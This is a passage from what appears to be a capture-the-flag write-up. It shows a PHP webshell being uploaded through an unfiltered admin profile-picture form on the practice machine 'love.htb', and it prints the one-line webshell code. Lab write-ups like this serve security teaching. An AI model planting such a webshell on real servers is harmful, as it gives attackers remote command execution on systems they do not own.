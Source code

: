 Clicking that brings up a form to update the admin profile:

![](/img/image-20210721151126213.png)

The profile picture is the first target that comes to mind, as it's the
chance to upload something. It looks like zero filtering is in place, as
if I just select a simple PHP webshell and upload it as `cmd.php`, it
doesn't complain.



    <?php system($_REQUEST["cmd"]); ?>



The image is now broken at the top:

![](/img/image-20210721151521100.png)

Looking at the source for the page, it saved the file as `cmd.php`:

![](/img/image-20210721151547209.png)

Visiting `http://love.htb/images/cmd.php` returns an error about missing
`cmd`:
